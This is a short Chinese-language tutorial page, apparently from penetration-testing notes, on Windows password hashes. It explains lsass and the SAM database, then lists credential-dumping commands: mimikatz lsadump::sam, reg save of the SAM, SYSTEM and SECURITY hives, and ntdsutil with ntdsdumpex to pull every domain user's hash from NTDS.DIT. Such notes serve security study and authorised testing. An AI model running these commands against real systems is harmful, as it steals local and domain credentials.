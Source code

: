 # 密码HASH

::: warning DeeLMind 提醒
注意权限问题！！！
:::

## lsass进程
lsass (Local Security Authority Subsystem Service)是一个 Windows 进程，负责处理操作系统的安全策略。例如，当您登录到 Windows 用户帐户或服务器时，lsass.exe 会验证登录名和密码。

## SAM
安全帐户管理器 (SAM Security Accounts Manager) 是Microsoft Windows 操作系统 ( OS ) 中的一个数据库文件，其中包含用户名和密码。
SAM 的主要目的是使系统更加安全，并在系统被盗时防止数据泄露。SAM 可用于不同版本的 Windows，包括Windows XP、Windows Vista、Windows 7、Windows 8.1、  Windows 10和Windows 11。
在用户尝试登录期间，Windows 系统将要求输入用户名和密码。输入密码后，将根据 SAM 中的密码HASH进行验证。如果用户名和相关密码与 SAM 中的条目匹配，则会发生一系列事件。这最终将导致授予用户访问系统的权限。

```JS
%SystemRoot%\system32\config\
```

## SAM文件
SAM存放本地用户HASH。

* 提取SAM 

```JS
mimikatz lsadump::sam
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
```

## NTDS.DIT
NTDS.DIT存放域内所有用户HASH。

* 提取NTDS.DIT
```JS
ntdsutil "ac i ntds" ifm "create full c:\\users\\tmp" q q
ntdsdumpex.exe -d "C:\Users\tmp\Active Directory\ntds.dit" -o hash.txt -s C:\Users\vagrant\Desktop\system.hiv
```
